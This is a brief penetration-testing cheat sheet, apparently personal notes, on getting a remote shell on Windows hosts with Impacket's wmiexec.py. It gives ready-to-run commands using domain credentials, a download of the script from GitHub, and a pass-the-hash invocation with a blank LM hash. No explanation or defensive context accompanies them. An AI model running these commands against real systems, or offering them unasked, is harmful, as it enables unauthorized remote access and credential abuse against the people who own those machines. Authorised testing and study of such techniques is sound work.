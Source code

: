 ```yaml
---
category: Uncategorized
tags: []
---
```

```python - kali
python3 /usr/share/doc/python3-impacket/examples/wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

or

```wget - kali
https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/wmiexec.py
```

#### Shell with wmi.py
```python - kali
wmiexec.py $DOMAIN/$USER:$PASSWORD@$TARGET
```

#### Passing the hash (blank LM hash)
```python - kali
wmiexec.py $DOMAIN/$USER@$TARGET -hashes aad3b435b51404eeaad3b435b51404ee:$HASH
```

